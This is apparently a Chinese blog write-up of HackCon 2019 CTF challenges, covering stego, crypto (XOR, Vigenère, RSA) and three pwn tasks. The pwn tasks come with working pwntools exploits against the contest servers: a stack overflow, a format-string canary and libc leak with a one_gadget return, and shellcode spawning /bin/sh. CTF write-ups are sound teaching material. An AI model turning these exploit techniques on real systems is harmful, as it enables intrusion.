 ```yaml
---
layout: post
title:  "HackCon 2019-Writeup"
date:   2019-8-23
desc: ""
keywords: ""
categories: [Ctf]
tags: [CTF]
icon: icon-html
---
```


#  HackCon 2019-Writeup

* ### Small icon much wow

  binwalk看一下然后dd分离得到二维码

* ### Too cold for steg 

  文件里找到password，然后

  ```
  stegsnow -C -p "d4rkc0de-IIITD" final.txt
  d4rk{h@ving_fun_w1th_st3gsn0w?}c0de
  ```

* ### Secret Agent

  把User-Agent改成Should d4rkc0de make their own browser

  d4rk{useragent_ftwwwwwww}c0de

  

  wdnmd我以为是User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) d4rkc0de/69.0.3497.100 Safari/537.36

  淦

* ### OTP

  两个密文异或之后得到两个明文异或的结果，根据明文里有"meme"分析

  ```
  c1 = '054617121418010c0b34'
  c2 = '3e1f00140a0807510a0e'
  
  c = '054617121418010c0b343e1f00140a0807510a0e'
  
  
  xor_res = '3b5917061e10065d013a'.decode('hex')
  
  meme = '6d656d65'.decode('hex')
  
  for i in range(7):
  	fuck = ''
  	for j in range(len(xor_res[i:i+4])):
  		fuck += hex(ord(xor_res[i:i+4][j])^ord(meme[j]))[2:].zfill(0)
  	print(fuck.decode('hex'))
  
  
  def xor(a,b):
      assert len(a)==len(b)
      c=""
      for i in range(len(a)):
          c+=chr(ord(a[i])^ord(b[i]))
      return c
  p1 = 'd4rk{meme_'
  print(xor(c1.decode('hex'),p1))
  key = 'areyoudank'
  
  print(xor(key,c1.decode('hex')))
  
  print(xor(key,c2.decode('hex')))
  #d4rk{meme__meme}c0de
  ```

* ### Noki

  ```
   g4iu{ocs_oaeiiamqqi_qk_moam!}e0gi
  ```

  维吉尼亚密码，密钥长度与明文长度相同

  根据d4rk看一波发现密钥和明文相同，然后就是他填字游戏了

  

* ### Ez Pz

  只能完成两次交互，两次加密或两次解密或一次加密一次解密

  解密可以接受除flag密文外任意整数，输入-1试一下，如果e为奇数就可以得到n-1

  得到n-1后一次加密一次解密爆破e

  然后解密`（c*pow（2，e，n））%n`得到2m，除以2得到m

* ### baby b0f

  改栈上的参数

  ```
  from pwn import *
  r = remote('68.183.158.95',8989)
  payload = 'a'*(0xe-4)+p64(0xDEADBEEF)
  r.sendline(payload)
  r.interactive()
  ```

* ### Not So Easy B0f

  格式化字符串泄露canary和main地址

  main地址不变，由于长度限制，再跑一次泄露libcstartmain+231，计算libc基址

  然后跳one_gadget

  ```python
  from pwn import *
  r = remote('68.183.158.95',8991)
  #r = process('./q3')
  elf = ELF('./q3')
  libc = ELF('./libc.so.6')
  
  #%17$llx 400796
  payload = '%11$llx%13$llx'
  r.sendline(payload)
  r.recvuntil('Hello\n')
  fuck = r.recvline().strip()
  print(fuck)
  canary = fuck[0:16]
  lsm = fuck[16:]
  main = '400796'
  log.success(canary)
  log.success(main)
  canary = int(canary,16)
  main = int(main,16)
  lsm = int(lsm,16)-231
  start = main-0x77a
  log.success('canary:'+hex(canary))
  log.success('start:'+hex(start))
  
  log.success('libc_start_main:'+hex(lsm))
  
  puts_plt = start+0x620
  puts_got = start + elf.got['puts']
  puts_libc = libc.symbols['puts']
  
  lsm_libc = libc.symbols['__libc_start_main']
  libc_base = lsm - lsm_libc
  p_rdi = start + 0x893
  one = libc_base + 0x45216
  payload = 'a'*(0x20-0x8)+p64(canary)+'fuckfuck'+p64(one)
  #payload += p64(p_rdi)+p64(puts_got)+p64(puts_plt)
  #payload += p64(main)
  r.sendline(payload)
  #r.recvuntil('Enter sentence :')
  #log.info(hex(u64(r.recvuntil('\n',drop=True).ljust(8,'\x00'))))
  r.interactive()
  ```

* ### 2 small 2 Pwn

  覆盖rbp，栈迁移，然后往data段写shellcode再跳过去

  ```python
  from pwn import *
  r = remote('68.183.158.95',8992)
  context(os='linux', arch='amd64')
  main = 0x4000c7
  payload = 'a'*0x10+p64(0x6000ec+0x10) + p64(main)
  r.sendline(payload)
  sh = asm("""
  mov eax, 59
  mov rdi, 0x60010c
  xor rsi, rsi
  xor rdx,rdx
  syscall
  """)
  payload = sh.ljust(0x18,'\x00')+p64(0x6000EC)+"\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x00"
  r.sendline(payload)
  
  r.interactive()
  
  
  ```

  

